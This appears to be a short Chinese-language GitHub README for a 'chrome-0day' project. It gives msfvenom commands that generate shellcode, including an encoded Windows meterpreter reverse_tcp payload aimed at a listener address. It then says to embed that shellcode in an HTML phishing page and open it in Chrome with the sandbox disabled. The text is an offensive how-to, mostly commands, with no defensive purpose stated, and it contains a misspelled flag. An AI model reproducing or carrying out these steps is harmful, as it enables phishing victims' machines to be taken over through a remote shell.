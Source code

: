 # chrome-0day
### 生成shellcode代码



```msfvenom -a x86 -p windows/exec CMD="calc" EXITFUNC=thread -f num```



```msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=5555 -e x86/shikata_ga_nai -b "\x00" -i 15 -f num -o payload.c```




### 制作html钓鱼文件



将生成的代码放入html中shellcode[]中。

浏览器关闭沙盒并打开网页

```
chrome.exe --no-sanbox /path/to/exploit.html
```





